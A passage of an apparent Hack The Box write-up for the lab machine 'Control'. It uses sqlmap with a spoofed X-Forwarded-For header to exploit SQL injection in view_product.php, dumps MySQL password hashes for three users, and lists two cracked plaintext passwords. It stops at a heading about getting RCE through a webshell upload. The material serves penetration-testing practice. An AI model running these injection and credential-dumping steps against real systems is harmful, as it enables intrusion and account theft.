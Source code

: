 `sqlmap -H "X-Forwarded-For: 192.168.4.28" -u "http://10.10.10.167/view_product.php" --data "productId=69" --proxy=http://127.0.0.1:8080 --random-agent`

![](/assets/images/htb-writeup-control/sqlmap1.png)

Listing users with: `sqlmap -H "X-Forwarded-For: 192.168.4.28" -u "http://10.10.10.167/view_product.php" --data "productId=69" --random-agent --passwords`

```
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8
```

I'm able to crack the first two hashes:

![](/assets/images/htb-writeup-control/crackstation.png)


- `hector: l33th4x0rhector`
- `manager: l3tm3!n`

## RCE using webshell upload with SQLi
